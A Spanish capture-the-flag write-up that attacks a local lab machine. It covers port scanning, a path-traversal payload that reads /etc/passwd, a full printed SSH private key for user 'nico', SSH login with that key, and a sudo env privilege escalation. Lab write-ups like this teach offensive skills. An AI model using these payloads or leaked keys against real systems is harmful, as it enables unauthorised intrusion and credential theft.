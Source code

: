 # pn to pn to -
## Reconocimiento
En primer lugar, haciendo uso de `nmap` escaneo todos los puertos de la máquina para obtener información.
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/23-pntopntobarra/imgs/1.png]]

El resultado: Un servidor SSH y uno HTTP de título "LeFvIrus", a falta de más info, accedo a la página para recavar datos. La página muestra un mensaje que avisa de que el equipo esta infectado con un virus, bajo este mensaje hay dos botones, uno para ver ejemplos de otros sistemas infectados y uno que dice: *Hacer clic aquí podría empeorar la situación.*

Revisando el código fuente veo que el botón de peligro ejecuta un script, lo pruebo y básicamente se carga la máquina, tuve que reiniciar el laboratorio ya que respondía con 403 todo el rato después de pulsarlo.
Por otro lado, el botón de los ejemplos redirige a `/ejemplos.php`, pero el directorio muestra un error ya que no hay ningún archivo. La forma de la URL me llama la atención.
```
http://172.17.0.2/ejemplos.php?images=./ejemplo1.png
```
## Explotación
Al probar un payload sencillo de directory trasversal, veo que el parámetro es vulnerable.
```
http://172.17.0.2/ejemplos.php?images=/etc/passwd
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/23-pntopntobarra/imgs/2.png]]

Probando a buscar distintos archivos aprovechando la vulnerabilidad encontrada, doy con la llave de SSH del usuario `nico`
```
-----BEGIN OPENSSH PRIVATE KEY----- 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 -----END OPENSSH PRIVATE KEY-----
```
Guardo el contenido en un archivo llamado id_rsa en mi máquina, le doy permisos y accedo mediante SSH a la máquina víctima.
```
chmod 600 id_rsa
ssh -i id_rsa nico@172.17.0.2
```
## Post explotación
Una vez dentro, al ejecutar `sudo -l` veo que puedo usar el binario `env` como root, después de una búsqueda en GTFObins ya está resuelto. 

![[Ciberseguridad/Hacking/Writeups/253_septiembre/23-pntopntobarra/imgs/3.png]]